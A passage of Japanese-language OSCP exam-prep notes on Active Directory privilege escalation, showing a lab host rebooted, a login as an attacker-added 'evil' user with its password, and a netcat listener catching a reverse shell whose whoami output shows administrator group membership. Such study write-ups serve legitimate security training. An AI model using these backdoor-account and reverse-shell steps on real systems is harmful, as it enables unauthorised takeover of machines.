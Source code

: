  `SeShutDownPrivilege`の権利があり、再起動可能

* 再起動する

  ```
  shutdown /r /t 0
  ```

* 追加したユーザでログインしなおす

  ```
  rdesktop -g 95% -u evil -p 'Ev!lpass' 192.168.144.10
  ```

  ```
  net localgroup Administrators
  ```

  ```
  ┌──(kali㉿kali)-[~/Documents/OSCP/21.ActiveDirectoryAttacks]
  └─$ nc -lnvp 12345
  listening on [any] 12345 ...
  connect to [192.168.119.131] from (UNKNOWN) [192.168.131.171] 49732
  Microsoft Windows [Version 10.0.17763.1757]
  (c) 2018 Microsoft Corporation. All rights reserved.
  
  C:\Windows\system32>whoami
  whoami                                                                                                                      
  exam\zensvc                                                                                                                 
                                                                                                                              
  C:\Windows\system32>whoami groups                                                                                           
  whoami groups                                                                                                               
  ERROR: Invalid argument/option - 'groups'.                                                                                  
  Type "WHOAMI /?" for usage.                                                                                                 
                                                                                                                              
  C:\Windows\system32>whoami /groups                                                                                          
  whoami /groups
  
  GROUP INFORMATION
  -----------------
  
  Group Name                                  Type             SID                                         Attributes                                                     
  =========================================== ================ =========================================== ===============================================================
  Everyone                                    Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group             
  BUILTIN\Users                               Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group             
  BUILTIN\Administrators                      Alias            S-1-5-32-544                                Mandatory group, Enabled by default, Enabled group, Group owner
  NT AUTHORITY\SERVICE                        Well-known group S-1-5-6                                     Mandatory group, Enabled by default, Enabled group             
  CONSOLE LOGON                               Well-known group S-1-2-1                                     Mandatory group, Enabled by default, Enabled group             
  NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group             
  NT AUTHORITY\This Organization              Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group             
  LOCAL                                       Well-known group S-1-2-0                                     Mandatory group, Enabled by default, Enabled group             
  ```